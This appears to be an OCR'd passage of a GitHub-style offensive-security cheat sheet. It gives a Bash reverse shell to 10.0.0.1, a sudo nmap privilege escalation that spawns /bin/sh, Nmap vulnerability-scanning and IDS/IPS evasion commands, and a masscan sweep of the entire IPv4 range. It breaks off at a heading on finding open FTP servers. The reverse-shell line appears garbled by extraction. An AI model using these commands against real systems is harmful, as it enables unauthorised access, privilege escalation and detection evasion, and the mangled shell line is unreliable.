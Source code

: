 ## Bash Reverse Shell

```bash
bash -i & /dev/tcp/10.0.0.1/8080 0 &1
```

## Turn Nmap into a Vulnerability Scanner

Download: <https://github.com/scipag/vulscan>

Usage:

```sh
nmap -sV --script=vulscan/vulscan.nse www.rosesecurity.com
```

## Nmap Privilege Escalation

If the binary is allowed to run as superuser by sudo, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

```bash
TF=$(mktemp)
echo 'os.execute("/bin/sh")' > $TF
sudo nmap --script=$TF
```

## Nmap Using Multiple Scripts on One Target

Usage:

```sh
nmap --script "http-*" <IP>
nmap --script "sql-*" <IP>
nmap --script "ftp-*" <IP>
```

## IDS/IPS Nmap Evasion

Low and slow (-T2), Fast mode (-F), Append random data to sent packets (--data-length), Randomize hosts, and verbosely conduct service detection on a file of hosts and output to XML.

```sh
nmap -T2 -F --data-length 5 --randomize-hosts -sV -v -iL (targets.txt) -oX (output.xml)
```

## Scanning Large Networks and Avoiding Sensitive IP Ranges

Set ```exclude.txt``` equal to the contents of <https://pastebin.com/53DP2HNV>

```sh
masscan 0.0.0.0/0 -p0-65535 –excludedfile exclude.txt
```

## Finding Open FTP Servers
